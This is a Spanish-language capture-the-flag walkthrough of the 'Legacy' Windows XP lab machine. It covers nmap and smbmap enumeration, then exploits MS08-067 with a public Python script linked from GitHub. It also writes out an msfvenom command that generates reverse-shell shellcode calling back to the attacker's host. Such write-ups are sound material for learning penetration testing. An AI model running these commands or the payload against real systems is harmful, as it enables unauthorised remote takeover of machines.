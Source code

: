 ```yaml
---
title: Legacy
published: true
categories: [Windows, Easy] 
tags: [Windows explotation, MS08-067]

image:
  path: https://user-images.githubusercontent.com/55555187/182439413-1283bf8a-321b-49c1-90a3-43ce6f8f3e09.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


Legacy es una <font color="#98E256">máquina Easy</font> de temática <font color="#2874A6">Windows</font> en la que se toca la vulnerabilidad MS08-067 sobre RPC.

## Reconocimiento y explotación

```bash
nmap -p- --open -sS --min-rate 10000 -Pn -n -vvv -oG portScan 10.10.10.4
```

![2022-07-30-12-02-31-image](https://user-images.githubusercontent.com/55555187/182439389-a6e5097b-2b3a-4ef9-a835-d83fa674e054.png)

```bash
nmap -sVC -p135,139,445 10.10.10.4 -oN portSV
```

![2022-07-30-12-04-05-image](https://user-images.githubusercontent.com/55555187/182439378-f3aece5b-a153-4c20-89b0-47fb0f87956e.png)

Reviso el servicio Samba pero no tiene ningún recurso compartido.

```bash
smbmap -H 10.10.10.4 -R
```

Viendo la información reportada por *nmap* me llama la atención el OS (*Windows XP*) y el puerto *RPC* abierto por lo que decido buscar exploits relacionados con ese OS y puerto.

Tras un rato de investigación descubro que en Windpows XP se puede lograr RCE explotando la vulnerabilidad **MS08_067** en RPC que explota un *buffer overflow*.

Buscando en Github encuentro un script en Python que se puede utilizar para explotar la vulnerabilidad [MS08-067.py](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py). Lo único que hay que hacer es modificar el shellcode del script por uno propio.

Genero un shellcode utilizando *msfvenom* que me entable una revershe shell y la sustituyo en el script

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Ejecuto el script y logro una shell:

![2022-07-30-12-37-36-image](https://user-images.githubusercontent.com/55555187/182439397-b0732336-8f6e-4a26-8c0d-e0b2023dd014.png)

![2022-07-30-12-38-10-image](https://user-images.githubusercontent.com/55555187/182439392-76759255-4a06-4cb3-bc6a-3a84782f7a97.png)

**Nota:** Si falla el intento de explotación se puede dar un bloqueo en Svchost.exe lo que haría que el servicio Samba fallase impidiendo (impidiendo explotar la vulnerabilidad, entre otras cosas) por lo que hay que tener cuidado a la hora de ejecutar el exploit.

Intento ver con que usuario tengo la shell: 

1. Comprobando la variable de entorno *USERNAME* mediante *echo %USERNAME%* pero no obtengo nada por que no está seteada

2. Intentando usar *whoami* pero en Windows XP no existe

3. Usando el comando *net* para ver que usuarios existen en el sistema por si solo hubiese uno (poco probable)

4. Mirando si puedo lanzar una *powershell* para probar con el comando *[System.Security.Principal.WindowsIdentity]::GetCurrent().Name* pero no está powershell en el sistema

A pesar de que no he podido obtener información del usuario, puedo acceder al escritorio de Administrator por lo que es sensato asumir que estoy como dicho usuario.

## Escalada de privilegios

En este caso no es necesario ya que tenemos una shell como **Administrator**
